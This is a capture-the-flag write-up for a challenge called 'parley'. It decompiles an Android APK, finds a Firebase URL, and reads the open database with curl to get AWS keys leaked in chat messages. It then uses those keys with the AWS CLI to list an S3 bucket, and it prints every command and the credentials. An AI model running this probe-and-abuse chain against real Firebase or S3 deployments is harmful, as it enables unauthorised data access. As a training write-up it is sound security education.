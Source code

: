 # parley

## Challenge

```
We found a discarded phone with a custom app on it. See what you can dig out of this.

Target: The name of the database backup file in the cloud storage.
```

## Walkthrough

The first was extracting the APK. I used a popular tool called `apktool` to extract it.

```sh
$ apktool d HijackSparrow.apk
```

Once extracted I inspected the generated `apktool.yml` file to analyze meta information about the application.

```
$ cat apktool.yml
...
unknownFiles:
  firebase-analytics-ktx.properties: '8'
  firebase-analytics.properties: '8'
  firebase-annotations.properties: '8'
  firebase-appcheck-interop.properties: '8'
  firebase-auth-interop.properties: '8'
  firebase-auth-ktx.properties: '8'
  firebase-auth.properties: '8'
...
```

Upon inspection I found many references to firebase, prompting me to inspect further and try find the databases address.

```sh
$ grep -R "firebase" ./
...
res/values/strings.xml:    <string name="firebase_database_URL">https://galleychat-default-rtdb.firebaseio.com/</string>
...
```

Now that I'd determined the databases address it was time to inspect it.

An easy way to check if a firebases permissions are misconfigured to allow read access is to `GET /.json`, if you get anything back than there's permissions issues and you can inspect further with other tooling.

```sh
$ curl https://galleychat-default-rtdb.firebaseio.com/.json | jq
...
{
  "chats": {
    ...
    "IWG0X15CB6VHu8B5T39bPU52kOu2PqPJo8r5XMcd6BCiqg3laH5JTL62": {
        "messages": {
        ...
        "-MqgkS_COYVcgOcEgKE7": {
          "message": "Need your help though, boss needs me to wipe data, what's the access info for the s3 bucket? I swear my brains have been chewed out by the garra rufa, need to act quick.",
          "senderId": "IWG0X15CB6VHu8B5T39bPU52kOu2"
        },
        "-MqglqoQIhth_4Z91Dia": {
          "message": "alright Dory, I got your back. ID: AKIASXOIOIIYVBOHNQ75",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        "-MqgmDV96k7e0cJU5iFv": {
          "message": "secret: ld8oygSYdQjAbTEtAHv7RG7B7o2dZrXjJsqjrdYO",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        ...
      }
    },
    "IWG0X15CB6VHu8B5T39bPU52kOu2pienkZrKUIOskcIAJpBQARcxV3l1": {
      "messages": {
        ...
        "-MqSYk_Gy_3JWtf06ilr": {
          "message": "Leave nothing behind. Delete all traces watch the logs in s3 chat-westoleashiplul",
          "senderId": "pienkZrKUIOskcIAJpBQARcxV3l1"
        },
        ...
      }
    },
    ...
  },
  "user": {
    ...
  }
}
```

Read permissions were incorrectly configured such that I could read the chats and user info. I summed up the important info to figure out the next step.

```
ID        AKIASXOIOIIYVBOHNQ75
Secret    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
S3 bucket chat-westoleashiplul
```

From here it was obvious that the next step was to read the S3 bucket and we had everything we needed. Using the AWS CLI I listed the files in the S3 bucket.

```sh
$ aws configure
AWS Access Key ID: AKIASXOIOIIYVBOHNQ75
AWS Secret Access Key: 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
Default region name [None]: 
Default output format [None]:

$ aws s3 ls s3://chat-westoleashiplul
2021-12-11 23:25:47       4151 backup-Ducky2-Corned-Latter.enc.gz
```

That looks like what we want!

# Solve

filename: `backup-Ducky2-Corned-Latter.enc.gz`
